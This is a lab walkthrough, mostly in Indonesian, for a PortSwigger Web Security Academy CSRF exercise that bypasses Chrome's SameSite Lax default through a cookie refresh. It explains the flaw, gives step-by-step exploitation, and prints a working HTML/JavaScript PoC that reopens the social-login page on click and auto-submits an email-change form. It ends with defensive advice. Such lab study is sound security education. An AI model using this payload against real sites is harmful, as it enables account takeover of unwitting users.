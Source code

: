 # SameSite Lax Bypass via Cookie Refresh

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: **wiener:peter**

**Note:** The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

**Hint:** You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

Browsers block popups from being opened unless they are triggered by a manual user interaction, such as a click. The victim user will click on any page you send them to, so you can create popups using a global event handler as follows:

```html
<script>
    window.onclick = () => {
        window.open('about:blank')
    }
</script>
```

---------------------------------------------

### References:

- [PortSwigger - Bypassing SameSite Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/1.png)

---------------------------------------------

## Pemahaman Kerentanan

### **CSRF (Cross-Site Request Forgery):**
Serangan ini memanfaatkan fakta bahwa aplikasi web tidak memverifikasi asal permintaan yang masuk, sehingga penyerang dapat membuat pengguna yang terautentikasi melakukan tindakan yang tidak diinginkan tanpa sepengetahuan mereka.

### **Kerentanan pada Fungsi Perubahan Email:**
- **Tidak Ada Token CSRF:** Formulir perubahan email tidak menggunakan token CSRF untuk memverifikasi keaslian permintaan.
- **SameSite Cookie Attribute Tidak Ditetapkan:** Cookie sesi tidak memiliki atribut `SameSite`, yang berarti browser (dalam kasus ini, Chrome) akan menerapkan kebijakan default `Lax`. Namun, Chrome memberikan pengecualian untuk permintaan POST tingkat atas dalam 120 detik pertama setelah sesi dibuat, memungkinkan serangan CSRF berhasil dalam jangka waktu tersebut.

## Eksploitasi

### **1. Autentikasi sebagai Pengguna**

#### **a. Login ke Aplikasi:**
- Gunakan kredensial yang diberikan (`wiener:peter`) untuk masuk ke aplikasi menggunakan login berbasis OAuth melalui akun media sosial.

#### **b. Pahami Sesi:**
- Setelah login, aplikasi akan menetapkan cookie sesi tanpa atribut `SameSite`, memungkinkan potensi serangan CSRF.

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/2.png)

### **2. Membangun Payload CSRF**

#### **a. Membuat Formulir CSRF:**
- Buat formulir HTML yang melakukan permintaan POST ke endpoint `/my-account/change-email` dengan parameter `email` diisi dengan email penyerang (`attacker@evil.com`).

#### **b. Menghindari Pemblokiran Popup oleh Browser:**
- Untuk memastikan cookie sesi diperbarui dalam waktu 120 detik, gunakan metode `window.open` yang dipicu oleh interaksi pengguna (misalnya, klik) agar tidak diblokir oleh browser.
- Implementasikan `window.onclick` untuk membuka tab baru yang menginisialisasi ulang sesi.

#### **c. Mengatur Waktu untuk Mengirimkan Permintaan CSRF:**
- Setelah membuka tab baru untuk memperbarui sesi, gunakan `setTimeout` untuk mengirimkan formulir CSRF setelah beberapa detik (misalnya, 10 detik) memastikan bahwa sesi telah diperbarui.

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/3.png)
![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/4.png)

### **3. Hosting dan Pengujian Payload**

#### **a. Hosting Payload:**
- Unggah payload HTML yang telah dibuat ke server eksploitasi yang disediakan.

#### **b. Mengujicoba Payload:**
- Buka halaman eksploitasi, klik di area yang ditentukan untuk memicu `window.open`, yang akan membuka tab baru dan memperbarui sesi.
- Setelah sesi diperbarui, formulir CSRF akan secara otomatis dikirimkan setelah waktu yang ditentukan, mengubah email korban menjadi `attacker@evil.com`.

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/5.png)

### **4. Menyerahkan Payload ke Korban**

- **Mengirimkan Link Exploit:**
  - Kirimkan link halaman eksploitasi kepada korban sehingga ketika mereka mengaksesnya dan berinteraksi (klik), serangan CSRF akan dieksekusi.

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/6.png)

## Proof of Concept (PoC)

Berikut adalah contoh PoC yang telah dimodifikasi untuk melakukan serangan CSRF dengan membuka `/social-login`, menunggu 10 detik, dan kemudian mengirimkan formulir perubahan email:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a72005004831ac38087729700fb0018.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test77&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
        window.onclick = () => {
            window.open('https://0a72005004831ac38087729700fb0018.web-security-academy.net/social-login');
            setTimeout(submit, 10000);
            function submit(){			
                history.pushState('', '', '/');
                document.forms[0].submit();    	
            }
        }      
    </script>
  </body>
</html>
```

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/7.png)
![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/8.png)

### **Penjelasan PoC:**
- **Formulir CSRF:** Mengirimkan permintaan POST ke endpoint perubahan email dengan nilai email yang diinginkan.
- **Script:** Ketika pengguna mengklik di halaman, `window.open` membuka tab baru ke `/social-login`, yang akan memperbarui cookie sesi. Setelah 10 detik, formulir CSRF secara otomatis dikirimkan untuk mengubah email korban.

## Poin Penting yang Perlu Diperhatikan

- **Batas Waktu Serangan:** Karena Chrome memberikan jendela waktu 120 detik untuk permintaan POST tingkat atas tanpa atribut `SameSite`, pastikan serangan dilakukan dalam jangka waktu ini.
  
- **Interaksi Pengguna Diperlukan:** Untuk menghindari pemblokiran popup oleh browser, pastikan bahwa `window.open` dipicu oleh interaksi pengguna seperti klik.
  
- **Keamanan Atribut Cookie:** Dalam skenario nyata, menambahkan atribut `SameSite=Strict` atau `SameSite=Lax` pada cookie sesi dapat membantu mencegah serangan CSRF. Selain itu, menggunakan token CSRF yang unik untuk setiap sesi atau permintaan juga merupakan praktik terbaik.

## Kesimpulan

Lab ini memberikan pemahaman yang baik tentang bagaimana serangan CSRF dapat dieksploitasi ketika aplikasi web tidak menerapkan perlindungan yang memadai seperti atribut `SameSite` pada cookie atau penggunaan token CSRF. Dengan mengikuti langkah-langkah di atas, Anda dapat berhasil melakukan serangan CSRF pada fungsi perubahan email yang rentan dalam lingkungan laboratorium ini.
